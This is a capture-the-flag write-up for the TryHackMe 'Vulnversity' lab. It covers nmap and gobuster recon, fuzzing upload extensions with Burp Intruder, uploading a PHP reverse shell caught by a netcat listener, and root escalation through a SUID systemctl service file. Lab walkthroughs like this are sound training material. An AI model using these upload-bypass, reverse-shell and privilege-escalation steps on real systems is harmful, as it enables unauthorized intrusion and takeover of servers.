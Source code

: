 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-01-17 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: false
---
```


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.


## Task 2 - Reconnaisance

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap` as below, all info can be gathered for the task.
{% capture code %}{% raw %}nmap -Pn -T4 -sV --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Locating directories using Gobuster

Use these links as references.
- [Gobuster Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-gobuster){:target="_blank"}
- [Gobuster Reference](https://4n3i5v74.github.io/posts/cheatsheet-gobuster/){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}{% raw %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endraw %}{% endcapture %} {% include code.html code=code %}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}{% raw %}curl http://<ip>:3333/<dir>/{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Compromise the webserver

Use these links as references.
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-m1ost-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}{% raw %}nc -lnvp 1234{% endraw %}{% endcapture %} {% include code.html code=code %}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}{% raw %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endraw %}{% endcapture %} {% include code.html code=code %}
{% capture code %}{% raw %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endraw %}{% endcapture %} {% include code.html code=code %}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}{% raw %}eop=$(mktemp).service{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl link $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl enable --now $eop{% endraw %}{% endcapture %} {% include code.html code=code %}


Capture the flag from the manipulated output file.
{% capture code %}{% raw %}cat /tmp/output{% endraw %}{% endcapture %} {% include code.html code=code %}

